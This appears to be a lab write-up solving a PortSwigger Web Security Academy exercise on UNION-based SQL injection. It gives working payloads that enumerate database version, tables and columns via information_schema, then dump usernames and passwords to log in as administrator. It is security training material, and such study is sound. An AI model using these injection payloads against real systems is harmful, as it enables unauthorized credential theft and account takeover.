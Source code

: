 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

[Lab: SQL injection attack, listing the database contents on non-Oracle databases | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

![lab-sql-list-db-content.png](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/lab-sql-list-db-content.png)

# Common Attack Payload

```sql
'--
'#
```

![screenshot00](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot00.png)

# Identify the Number of Columns

```sql
'ORDER+BY+1--
'ORDER+BY+2--
'ORDER+BY+3--
```

![screenshot01](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot01.png)

![screenshot02](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot02.png)

# Identify the Column Data Types

```sql
'UNION+SELECT+'a',+'a'--
'UNION+SELECT+'a',+NULL--
'UNION+SELECT+NULL,+'a'--
```

![screenshot03](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot03.png)

# Identify Database Type

## Microsoft

```sql
'UNION+SELECT+NULL,+@@version--
```

![screenshot04](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot04.png)

## **PostgreSQL**

```sql
'UNION+SELECT+NULL,+version()--
```

![screenshot05](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot05.png)

# List Database Schema

## Tables

```sql
'UNION+SELECT+NULL,+table_name+FROM+information_schema.tables--
```

- Output
    

    ![lab-sql-select-table-names.png](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/lab-sql-select-table-names.png)
    

<aside>
💡 Notable table `users_rqejqh`

</aside>

## User Table Columns

```sql
'UNION+SELECT+NULL,+column_name+FROM+information_schema.columns+WHERE+table_name+=+'users_rqejqh'+--
```

![screenshot06](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot06.png)

# Retrieve Username and Passwords

```sql
'UNION+SELECT+username_dmmoek,+password_lpxgvw+FROM+users_rqejqh+--
```

![screenshot07](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot07.png)

# Login as `administrator`

```
administrator
kx9lx9hbxw96jkvi6dsz
```

![screenshot08](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/screenshot08.png)

![lab-solved-sql-select-table-names.png](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases/lab-solved-sql-select-table-names.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'--`.
3. Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Find the password for the `administrator` user, and use it to log in.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #9 SQL injection attack, listing the database contents on non Oracle databases](https://youtu.be/JduM_dO8glw)

Michael Sommer

[SQL injection attack, listing the database contents on non-Oracle databases (Video solution, Audio)](https://youtu.be/Kd810Iiv1dM)

